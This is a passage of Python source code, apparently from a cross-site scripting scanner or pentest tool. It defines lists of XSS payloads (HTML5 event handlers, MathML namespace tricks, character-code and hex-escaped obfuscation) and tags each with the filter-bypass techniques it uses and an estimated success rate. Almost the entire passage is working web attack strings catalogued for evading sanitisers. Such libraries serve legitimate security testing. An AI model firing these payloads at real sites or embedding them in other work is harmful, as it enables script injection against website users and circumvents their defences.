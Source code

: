 ```python
            )
        ]
    
    def _load_advanced_payloads(self) -> List[XSSPayload]:
        """Advanced XSS payloads for complex scenarios"""
        return [
            XSSPayload(
                payload='<details open ontoggle=alert()>',
                category=PayloadCategory.ADVANCED,
                description="HTML5 details element with ontoggle event",
                contexts=["html_content"],
                bypass_techniques=["html5_events"],
                success_rate=0.85,
                source="HTML5 advanced"
            ),
            XSSPayload(
                payload='<video><source onerror="alert()">',
                category=PayloadCategory.ADVANCED,
                description="Video element with source onerror",
                contexts=["html_content"],
                bypass_techniques=["html5_media"],
                success_rate=0.8,
                source="Media elements"
            ),
            XSSPayload(
                payload='<math><mi//xlink:href="data:x,<script>alert()</script>">',
                category=PayloadCategory.ADVANCED,
                description="MathML with XLink namespace injection",
                contexts=["html_content"],
                bypass_techniques=["namespace_confusion", "protocol_confusion"],
                success_rate=0.3,
                source="XML namespaces"
            ),
            XSSPayload(
                payload='<template><script>alert()</script></template>',
                category=PayloadCategory.ADVANCED,
                description="HTML5 template element with deferred execution",
                contexts=["html_content"],
                bypass_techniques=["html5_template"],
                success_rate=0.4,
                source="Template injection"
            )
        ]
    
    def _load_obfuscated_payloads(self) -> List[XSSPayload]:
        """Heavily obfuscated payloads for advanced evasion"""
        return [
            XSSPayload(
                payload='<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,41))>',
                category=PayloadCategory.OBFUSCATED,
                description="Character code obfuscation with eval",
                contexts=["html_content"],
                bypass_techniques=["encoding", "obfuscation"],
                success_rate=0.5,
                source="Encoding obfuscation"
            ),
            XSSPayload(
                payload='<svg onload="this[\\x61\\x6c\\x65\\x72\\x74]()">',
                category=PayloadCategory.OBFUSCATED,
                description="Hex encoding with bracket notation",
                contexts=["html_content"],
                bypass_techniques=["unicode_encoding", "bracket_notation"],
                success_rate=0.45,
```
